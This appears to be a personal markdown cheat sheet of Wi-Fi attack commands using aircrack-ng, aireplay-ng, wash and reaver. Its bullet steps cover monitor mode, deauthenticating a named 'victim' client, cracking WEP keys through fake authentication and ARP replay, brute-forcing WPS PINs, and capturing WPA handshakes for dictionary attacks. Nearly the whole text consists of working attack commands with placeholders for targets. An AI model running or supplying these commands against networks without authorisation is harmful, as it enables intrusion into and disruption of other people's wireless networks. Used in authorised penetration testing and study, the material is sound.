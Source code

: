# Wireless

### airodump-ng

**Scanning**

* adapter must be in monitor mode
  * `ifconfig wlan0 down`
  * sometimes need `airodump-ng check kill`
  * `iwconfig mode monitor`
  * `ifconfig wlan0 up`
* to sniff 5g, use `--band abg` (or whatever specific band you are looking for)
* `airodump-ng --band abg mon0` (mon0 is new interface name for monitor mode adapter)
* \--bssid \[BSSID]
* \--channel \[channel]
* \--write \[filename]

**Deauthentication**

* disconnect a client from the networks
* `aireplay-ng --deauth [# of packets (large if you want to just dc)] -a [ap mac address] -c [victim mac address] mon0`
* airodump-ng may need to be running at the time the command is executed

**WEP**

* run a specific airodump scan
* Need a high number of Data packets (IVs) to easily crack the key. Busier networks mean more data packets
  * if we don't have much traffic on the network, we can use fake auth packets to force the AP to generate IVs
  * associate to the network
    * `aireplay-ng --fakeauth 0 -a [AP BSSID] -h [my mac address] mon0`
  * arp replay
    * `aireplay-ng --arpreplay -b [AP BSSID] -h [my mac address] mon0`
    * wait for packets to fly
* `aircrack-ng [filename].cap`
* can use ascii or key with colons removed to connect to network

**WPA/WPA2**

* _**WPS**_
  * discover WPS enabled devices
    * `wash --interface mon0`
  * brute with reaver
    * `reaver --bssid [AP mac address] --channel [network channel] --interface mon0 -vvv --no-associate`
    * if send\_packet bug, revert to older version of reaver
  * associate to network
    * `aireplay-ng --fakeauth 30 -a [AP BSSID] -h [my mac address] mon0`
      * we're increasing the timeout to 30 between association attempts so we don't get locked out
* _**Standard**_
  * run a specific airodump scan
  * wait for handshake to be captured or use short deauth attack (send 4 deauth packets)
  * run a dictionary attack with file containing handshake
    * `aircrack-ng [filename].cap -w [wordlist]`
